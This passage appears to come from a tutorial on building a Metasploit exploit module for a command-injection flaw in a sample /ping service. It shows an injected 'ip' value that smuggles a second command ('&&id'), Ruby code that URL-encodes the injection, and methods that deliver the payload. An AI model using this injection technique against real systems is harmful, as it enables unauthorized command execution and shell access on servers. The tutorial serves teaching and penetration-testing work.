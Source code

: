 All that this method does is register metadata to the module.

## Filtering

It's important to ensure that payloads being sent are properly encoded. As an example, if you send a request to the `/ping` endpoint that looks like `/ping?ip=1.1.1.1&&id`, you won't see the "uid=1000(meta) gid=1000(meta)" in the response because `&` is a special character in HTTP.

Encoding requirements might change based on the application you're trying to inject, so experiment if things aren't working.

```ruby
def filter_bad_chars(cmd)
  return cmd
    .gsub(/&/, '%26')
    .gsub(/ /, '%20')
end
```

`filter_bad_chars` takes in `cmd`, which is a string. `cmd` has two substitutions applied - the first will translate `&` to `%26`, the second translates a space to `%20`. The `.gsub` statements are a global substitution across the string, so the entire payload is impacted by the substitutions here (Similar to str.replace in Python). Regardless of whether or not the string is modified, it is returned.

## Execution

The `execute_command` method takes in `cmd` and `_opts` and executes the command on the target. In our case, executing a command is simply adding the command to a GET request and sending it to the `/ping` endpoint on our sample service.

```ruby
def execute_command(cmd, _opts = {})
  send_request_cgi({
    'method' => 'GET',
    'uri' => '/ping',
    'encode_params' => false,
    'vars_get' => {
      'ip' => "bing.com%20%26%26%20#{filter_bad_chars(cmd)}",
    }
  })
end
```

We don't even need to handle the output of `send_request_cgi` (Really, there should be no return until the shell exits, since the call to `subprocess.run` doesn't return until that shell dies).

## Exploitation

To finish up, all we need is to define the `exploit` method. This method is called by Metasploit when you use `run` within a msfconsole. All that we'll do here is print a little status message and run the exploit, but later you can modify this method to handle droppers as well:

```ruby
def exploit
  print_status("Executing #{target.name} for #{datastore['PAYLOAD']}")
  execute_command(payload.encoded)
end
```
